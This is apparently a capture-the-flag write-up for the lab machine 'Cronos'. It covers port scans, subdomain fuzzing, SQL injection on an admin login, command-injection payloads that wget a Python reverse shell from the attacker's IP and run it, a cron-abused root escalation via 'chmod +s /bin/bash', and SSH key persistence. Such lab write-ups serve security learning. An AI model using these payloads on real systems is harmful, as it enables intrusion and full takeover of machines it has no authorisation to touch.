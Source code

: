 # cronos

`nmap` scan

```text
# Nmap 7.91 scan initiated Mon Aug  9 16:30:55 2021 as: nmap -sS -sV -sC -A -O -p- --min-rate 1000 -oN cronos 10.129.30.241
Nmap scan report for 10.129.30.241
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
# not much here

53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
# nothing here

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

an `nmap` script on the `DNS` server. Let's run it in background, while we look at the `HTTP` server. Update: nothing much from here

```text
nmap -p53 --min-rate 1000 --script broadcast-dns-service-discovery.nse,dns-blacklist.nse,dns-brute.nse,dns-cache-snoop.nse,dns-check-zone.nse,dns-client-subnet-scan.nse,dns-fuzz.nse,dns-ip6-arpa-scan.nse,dns-nsec-enum.nse,dns-nsec3-enum.nse,dns-nsid.nse,dns-random-srcport.nse,dns-random-txid.nse,dns-recursion.nse,dns-service-discovery.nse,dns-srv-enum.nse,dns-update.nse,dns-zeustracker.nse,dns-zone-transfer.nse,fcrdns.nse 10.129.30.241
```

on `ffuf`'ing the `HTTP` server with `10.10.10.13 cronos.htb` \(there is just apache page on using with IP address\), we get a `Laravel` page

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.39.02.png)

and a `web.config` on the `ffuf` scan

```text
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.13/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Header           : Host: cronos.htb
 :: Extensions       : .php .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
                        [Status: 200, Size: 2319, Words: 990, Lines: 86]
robots.txt              [Status: 200, Size: 24, Words: 2, Lines: 3]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
web.config              [Status: 200, Size: 914, Words: 209, Lines: 24]
:: Progress: [13842/13842] :: Job [1/1] :: 814 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

```text
<configuration>
  <system.webServer>
    <rewrite>
      <rules>
        <rule name="Imported Rule 1" stopProcessing="true">
          <match url="^(.*)/$" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Redirect" redirectType="Permanent" url="/{R:1}" />
        </rule>
        <rule name="Imported Rule 2" stopProcessing="true">
          <match url="^" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
            <add input="{REQUEST_FILENAME}" matchType="IsFile" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Rewrite" url="index.php" />
        </rule>
      </rules>
    </rewrite>
  </system.webServer>
</configuration>
```

these pages are not revealing much to us, So lets do a `subdomain enumeration`

```text
:: Method           : GET
 :: URL              : http://10.10.10.13/index.php
 :: Wordlist         : FUZZ: ./dnsrecon/subdomains-top1mil-20000.txt
 :: Header           : Host: FUZZ.cronos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57]
www                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
WWW                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
:: Progress: [20000/20000] :: Job [1/1] :: 588 req/sec :: Duration: [0:00:34] :: Errors: 24 :
```

so there is a `SQLi` vulnerability on the `admin.cronos.htb` page. We get a logged in session if we try that.

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.58.27.png)

on the logged in session we have an option to `ping` and `traceroute`, although `traceroute` doesn't work. and if we intercept the ping in `Burp`, we see there might be some `code injection` that might be going on.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.03.10.png)

this below is my attempt on getting a `reverse shell` on the box

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.16.38.png)

and now, we need to run the following commands on the `Burp repeater`

```text
command=wget+10.10.14.31%3a81/shell.py+-O+/tmp/shell.py;ping+-c+1&host=8.8.8.8
command=python3+/tmp/shell.py;ping+-c+1&host=8.8.8.8
```

and, we got a reverse shell as `www-data`

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.18.40.png)

and we have got a `config.php` here in our working folder, let's try to go to sql.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.20.57.png)

admin pass, not sure if this will lead us to something. So nothing much here after trying to crack this.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.21.45.png)

maybe we got something here.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.26.34.png)

nope, none of this works. By the name of the box, it maybe that there is some `cron jobs` running here. Looking at processes using `pspy`, we can see a pho job running every minute

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.19.47.png)

so we can modify this file to get code execution as `root` user, so let's do that now. So what I did here is, add a line that says

```text
system('chmod +s /bin/bash');
```

in the `/var/www/html/artisan` file. \(it might spoil the box for others if we do this on a shared machine\)

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.26.03.png)

and we are root now. If you want a root ssh shell from now on, its very easy to do that, just add your ssh pub key in the `/root/.ssh/authorized_keys` file and make its permissions as

```text
chmod go= /root/.ssh/authorized_keys
```

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.18.34.png)

